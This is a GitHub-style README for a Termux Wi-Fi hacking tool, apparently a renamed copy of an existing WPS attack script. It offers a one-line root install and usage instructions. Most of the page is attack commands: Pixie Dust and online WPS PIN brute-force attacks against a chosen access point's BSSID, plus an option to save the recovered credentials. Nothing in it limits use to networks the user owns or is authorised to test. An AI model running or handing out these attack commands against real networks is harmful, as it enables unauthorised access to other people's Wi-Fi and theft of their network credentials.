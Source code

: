 [![Python 3.5](https://img.shields.io/badge/Python-3.5-yellow.svg)](http://www.python.org/download/)
[![python](https://img.shields.io/badge/python-2.7-brightgreen.svg)](https://www.python.org/downloads/release/python-2714/)
[![OS](https://img.shields.io/badge/Tested%20On-Linux%20%7C%20Android-yellowgreen.svg)](https://termux.com/)


### One click Installation :

```bash
apt update && apt upgrade && pkg install -y root-repo && pkg install -y git tsu python wpa-supplicant pixiewps iw && git clone --depth 1 https://github.com/Gtajisan/WifiHackfarhan && cd WifiHackfarhan && sudo python WifiHackfarhan.py -i wlan0 -K 
```
## Feutures and Contains :


```bash 

1)Scan Networks   

2)Getting Handshake

3)Create passed crack 

4)Install Wireless supported                  

5)WPS Networks attacks 

6)Scan for WPS Networks

7)Crack WiFi all of tham

8)Crack Handshake without monitor mod support 
```


## Tested On :

* Kali Linux (🚫)
* BlackArch Linux (🚫)
* Ubuntu (🚫)
* Kali Nethunter (🚫)
* Termux ( Rooted Devices✅)
* Parrot OS (🚫)
* তুমি আছো তুমি নাই (🤣)

### Hack WIfi Using Termux! (Requires Root)
<p align="center"><img src="https://c.top4top.io/p_2834522a60.png"></

## [Termux](https://termux.com/)
Please note that root access is required.  

### Manually
**Installing requirements**
 ```
 pkg install -y root-repo
 ```
 ```
 pkg install -y git tsu python wpa-supplicant pixiewps iw openssl
 ```
### Getting WifiHack
 ```
 git clone --depth 1 https://github.com/Gtajisan/WifiHackfarhan
 ```
 ```
 cd WifiHackfarhan
 ```
### Running
 ```
 sudo python WifiHackfarhan.py -i wlan0 -K
 ```
### One line Command
 ```
 sudo python WifiHackfarhan/WifiHackfarhan.py -i wlan0 -K
 ```

# Usage
```
 farhan.py <arguments>
 Required arguments:
     -i, --interface=<wlan0>  : Name of the interface to use

 Optional arguments:
     -b, --bssid=<mac>        : BSSID of the target AP
     -p, --pin=<wps pin>      : Use the specified pin (arbitrary string or 4/8 digit pin)
     -K, --pixie-dust         : Run Pixie Dust attack
     -B, --bruteforce         : Run online bruteforce attack
     --push-button-connect    : Run WPS push button connection

 Advanced arguments:
     -d, --delay=<n>          : Set the delay between pin attempts [0]
     -w, --write              : Write AP credentials to the file on success
     -F, --pixie-force        : Run Pixiewps with --force option (bruteforce full range)
     -X, --show-pixie-cmd     : Alway print Pixiewps command
     --vuln-list=<filename>   : Use custom file with vulnerable devices list ['vulnwsc.txt']
     --iface-down             : Down network interface when the work is finished
     -l, --loop               : Run in a loop
     -r, --reverse-scan       : Reverse order of networks in the list of networks. Useful on small displays
     --mtk-wifi               : Activate MediaTek Wi-Fi interface driver on startup and deactivate it on exit
                                (for internal Wi-Fi adapters implemented in MediaTek SoCs). Turn off Wi-Fi in the system settings before using this.
     -v, --verbose            : Verbose output
 ```

## Usage examples
Start Pixie Dust attack on a specified BSSID:
 ```
 sudo python3 WifiHackfarhan.py -i wlan0 -b 00:90:4C:C1:AC:21 -K
 ```
Show avaliable networks and start Pixie Dust attack on a specified network:
 ```
 sudo python3 WifiHackfarhan.py -i wlan0 -K
 ```
Launch online WPS bruteforce with the specified first half of the PIN:
 ```
 sudo python3 WifiHackfarhan.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234
 ```
 Start WPS push button connection:s
 ```
 sudo python3 WifiHackfarhan.py -i wlan0 --pbc
 ```
## Troubleshooting
#### "RTNETLINK answers: Operation not possible due to RF-kill"
 Just run:
```sudo rfkill unblock wifi```
#### "Device or resource busy (-16)"
 Try disabling Wi-Fi in the system settings and kill the Network manager. Alternatively, you can try running OneShot with ```--iface-down``` argument.
#### The wlan0 interface disappears when Wi-Fi is disabled on Android devices with MediaTek SoC
 Try running WifiHack with the `--mtk-wifi` flag to initialize Wi-Fi device driver.
# Acknowledgements
## Special Than all root users 
* FARHAN X ME
## [Facebook](https://www.facebook.com/profile.php?id=100094924471568&mibextid=ZbWKwL)

## [Whatsapp](https://wa.me/+880130505723*)

## Thanks For Using This Tool 🐸🙄
## ki obsta 🤡
## cd WifiHackfarhan
## sudo python WifiHackfarhan/WifiHackfarhan.py -i wlan0 -K

